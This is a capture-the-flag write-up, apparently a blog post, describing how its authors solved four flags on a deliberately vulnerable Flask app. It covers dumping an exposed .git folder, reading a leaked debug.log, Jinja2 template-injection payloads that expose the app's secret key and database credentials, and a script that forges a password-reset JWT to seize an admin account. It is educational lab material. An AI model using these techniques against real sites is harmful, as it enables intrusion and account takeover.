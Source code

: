 ```yaml
---
layout: post
title:  "ØxＯＰＯＳɆＣ Mɇɇtuᵽ [0x70] Challenge Write-up"
categories: [infosec, iot]
tags: [oposec, infosec, ctf]
description: "Write-up for the ctf-like challenge of 0x70 edition of the ØxＯＰＯＳɆＣ Mɇɇtuᵽ"
---
```


"Based in Porto, the ØxＯＰＯＳɆＣ group was started by g33ks who are passionate about security. The meetup primary mission is to discuss and tackle upsurging security issues by leveraging the expertise and know-how of members of the group." This is the write-up of the challenge at the 0x70 meetup edition, by [DDuarte](https://github.com/DDuarte) and André Morais.
<!--more-->

The meetup happens in a montly-basis, feel free to [join in](https://www.meetup.com/0xOPOSEC/).

![Index Page/Login](/images/oposec/index.png)

Jumping to the challenge. We're given an URL to a Twitter-like website named Twipy (image). From the name we can conclude that maybe it is made in Python. We know that there are 4 flags to be found: 

- Flag 1 - Version Control is easy
- Flag 2 - Debug 101
- Flag 3 - Nice tweet Eve 🧪
- Flag 4 - This link is bamboozling

All the flags have the same format: *{flag}Rand0mStuff*

## Recon

First things first, lets make some recon even without creating an account. Firing up a [dirsearch](https://github.com/maurosoria/dirsearch) maybe will give us something. The results can be summed up as follow (200 status code results):

{% highlight bash %} 
$ dirsearch -u "example.com" -e py,php
|- 200 -    1KB - /.git/
|- 200 -  735B  - /.gitignore
|- 200 -    3KB - /auth/login
|- 200 -   19KB - /debug.log
{% endhighlight %} 

So, from dirsearch we found an exposed ```.git``` folder and a ```debug.log``` file. Downloading all the things with ```wget```.

{% highlight bash %} 
$ wget --mirror -I .git http://example.com/.git/
$ wget http://example.com/debug.log
{% endhighlight %} 

Before moving further, firing up ```nmap``` returns only ports 22 (SSH) and 80 (HTTP), so nothing unusual here. We could try to find the credentials for the SSH, but it is a long-short from the beggining. Firing also ```sqlmap``` on all the possible injectable fields (login form, account reset and ```next``` query param) also resulted in a dead-end.

![Timeline/Home](/images/oposec/timeline.png)

Moving further, and creating an account, we end up with a timeline (image). In the image we can see another user posts, *Willis Adams*, which has two messages being one of them a private message that we can only see the first 6 chars: *{flag}\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\**. Only the *Willis Adams* user can see the message behind the asterix, but it is a flag. 

The other features of the website like the update profile, explore other users tweets and searching resulted in dead-ends.

## Flag 1 - Version Control is easy

After finding the ```.git``` folder, the next obvious step was to try to recovery all the source code. By making a ```$ git status``` we could see all the files that were deleted. 

{% highlight bash %} 
$ git checkout -- .
{% endhighlight %} 

Running the above command restored all the files to their most recent version (before being deleted). By checking the ```$ git log``` we found out some curious commit messages like *Don't disclose mail password :)*, but I could not find anything by analyzing the git diffs. 

Since we know that all flags have the same format, making an exaustive search among all files and revisions:
{% highlight bash %} 
$ git grep ".*flag.*" $(git rev-list --all)
{% endhighlight %} 

We could find that in the commit ```eb3cb7e1ec4e73b0850ec4a6c4a89122599d213d``` the file ```twipy.py``` had the following line of code:

{% highlight python %} 
return '{flag}Us3_vault_for_no_p4sswords_1n_s0urce_cod3.'
{% endhighlight %} 
    
And so, we have our first flag:

>> {flag}Us3_vault_for_no_p4sswords_1n_s0urce_cod3.

## Flag 2 - Debug 101

During our recon phase we found out that a ```debug.log``` was exposed and accessible. Analyzing its contents we could immediatelly find the next flag:

{% highlight bash %} 
2019-01-10 17:52:25,489 ERROR: Unhandled Exception: {flag}b3_c4r3ful_w1th_Wh4t_y0u_l34v3_pUbl1c [in /twipy/app/errors/handlers.py:21]
{% endhighlight %} 

Further we found out that calling ```http://example.com/flag``` was the trigger to write that exception to the log file.

>> {flag}b3_c4r3ful_w1th_Wh4t_y0u_l34v3_pUbl1c

## Flag 3 - Nice tweet Eve 🧪

Since we now have access to the source code of the app, and sure that the app is written in Python, one of the first things that comes to mind is [Server-Side Template Injection](https://portswigger.net/blog/server-side-template-injection). Reading some tutorials and write-ups about the subject I found this one as being the most straightforward: [Flaskcards challenge at Pico CTF 2018](https://s0cket7.com/picoctf-web).

To find if the website is vulnerable we simply tweet ```{{ 7 * 7 }}```, and in the alert-info box we got the following response:
*You just posted: 49*

So our code is being executed. In order to exploit Template Injection firstly we must find out what is the template engine being used. To do so, the probe ```{{7*'7'}}``` would result in ```49``` in Twig, ```7777777``` in Jinja2, and neither if no template language is in use. In our case the response was: *You just posted: 7777777*, so we're dealing with Jinja2.

We could also reach the same conclusion by analyzing the Python packages in the ```requirements.txt``` file. And we could also identify the vulnerable code:

{% highlight python %} 
# TODO add user input validation
post_content = render_template_string('''You just posted: %s ''' % form.post.data)
{% endhighlight %} 

The next step was trying to get the config, posting ```{{ config.items() }}```, which resulted in an alert-info with a lot of information that is contained in the config, including:
- FLAG: {flag}V4lid4t3_always_us3r_1NPUT 
- SECRET_KEY: yJmsCAeao5zOM3gvoxHrOyM5HGJTTDpQ7UxAIHneCxc=
- SQLALCHEMY_DATABASE_URI: mysql+pymysql://twipy:RkZDwtkaZ9ugnwf@db/twip

So we have our third flag:

>> {flag}V4lid4t3_always_us3r_1NPUT 

## Flag 4 - This link is bamboozling

One of the things that can be easily noticed is that each user has an unique UUID, e.g. *ae1677ca-f7bd-431a-8280-8fdf4aa801ca*. We can also visit other users profiles and get their unique UUID. 

{% highlight python %} 
god_user = User.query.filter_by(email='willis.adams@example.com').first()
if god_user:
    user.follow(god_user)
{% endhighlight %} 

Analyzing the code creating a new user account, we notice that all the users must follow the user *Willis Adams*, with the UUID *70a82737-a6d9-4284-93db-0600db6f05ca*. 

{% highlight python %} 
def dummy_password(size=8, chars=string.ascii_letters + string.digits):
    return ''.join(random.choice(chars) for i in range(size))
{% endhighlight %} 

Since the passwords are random generated in the ```twipy.py```, brute-forcing would take too much time. Another attack-vector can be the recovery password mechanism. By analyzing the structure of the recovery link, we notice that it ressembles to a [JWT token](https://jwt.io/): 

```http://example.com/auth/reset_password/eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InphZnlmb2t1QGdldG5hZGEuY29tIiwiaWQiOiJhZTE2NzdjYS1mN2JkLTQzMWEtODI4MC04ZmRmNGFhODAxY2EiLCJleHAiOjE1NDc3MjY4NzEuMzgwMzQ2LCJuYW1lIjoidHNhciJ9.pDrpqe-GB8Qo2xEdD5pDA9wIOtNpOl3GAq19LBFZJXs```.

In the  ```models.py``` file we have the following logic for assigning and validating recovery password tokens (JWT tokens).

{% highlight python %} 
def get_token(self, expires_in=600):
    return jwt.encode(
        {'id': self.id, 'name': self.name, 'email': self.email, 'exp': time() + expires_in},
        current_app.config['SECRET_KEY'],
        algorithm='HS256').decode('utf-8')

@staticmethod
def verify_token(token):
    try:
        id = jwt.decode(token, current_app.config['SECRET_KEY'], verify=False, algorithms=['HS256'])['id']
    except:
        return
    return User.query.get(id)
{% endhighlight %} 

Since there is no call to database or nounce being used, we can make our own JWT tokens if we know the SECRET_KEY (from the third flag) and the UUID of the target user, in this case the **god user**.

By making a simple script (checking out in the requirements.txt the Python package used for the JWT - PyJWT), we can get the JWT token in question.

{% highlight python %} 
import jwt
from time import time

secret_key = 'yJmsCAeao5zOM3gvoxHrOyM5HGJTTDpQ7UxAIHneCxc='
id = "70a82737-a6d9-4284-93db-0600db6f05ca"
name = "Willis Adams"
email = "willis.adams@example.com"
expires_in = 600;

print jwt.encode(
    {'id': id, 'name': name, 'email': email, 'exp': time() + expires_in},
    secret_key,
    algorithm='HS256').decode('utf-8')
{% endhighlight %} 

By setting a new password to the *god user* we can see their private tweets thus getting the flag.

>> {flag}4lw4ys_v3r1fy_y0ur_t0k3NS


## Wrap-Up

It was a nice web challenge, always learning a little bit more about infosec and CTFs. Kudos @dduarte and @AndreMorais for the challenge.